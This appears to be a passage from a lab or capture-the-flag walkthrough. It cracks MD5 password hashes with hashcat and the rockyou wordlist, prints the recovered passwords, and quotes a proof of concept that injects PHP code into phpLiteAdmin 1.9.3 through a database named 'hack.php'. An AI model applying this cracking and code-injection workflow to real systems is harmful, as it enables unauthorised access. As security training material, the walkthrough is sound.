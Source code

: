 ```console
root@kali:~$ zcat /usr/share/wordlists/rockyou.txt.gz > rockyou.txt
```

```console
root@kali:~$ hashcat -a 0 -m 0 hashes.phplite rockyou.txt
...
96781a607f4e9f5f423ac01f0dab0ebd:zico2215@
653f4b285089453fe00e2aafac573414:34kroot34 
```

In seconds hashcat managed to crack the MD5 hashes, with this credentials it was not possible to access to the server via SSH.

A Remote Code Injection vulnerability was discovered for phpLiteAdmin 1.9.3.

```console
root@kali:~$ searchsploit phpliteadmin 1.9.3                            
----------------------------------------------------------- -------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- -------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection             | php/webapps/24044.txt
----------------------------------------------------------- -------------------------
```

We copy the exploit to our current directory.

```console
root@kali:~$ searchsploit -m php/webapps/24044.txt
```


## Exploitation
### Remote PHP Code Injection

We follow the instructions described in the exploit.

```console
root@kali:~$ cat 24044.txt
...
Proof of Concept:

1. We create a db named "hack.php".
(Depending on Server configuration sometimes it will not work and the name for the db will be "hack.sqlite". Then simply try to rename the database / existing database to "hack.php".)
The script will store the sqlite database in the same directory as phpliteadmin.php.
Preview: http://goo.gl/B5n9O
Hex preview: http://goo.gl/lJ5iQ

2. Now create a new table in this database and insert a text field with the default value:
<?php phpinfo()?>
Hex preview: http://goo.gl/v7USQ

3. Now we run hack.php
```

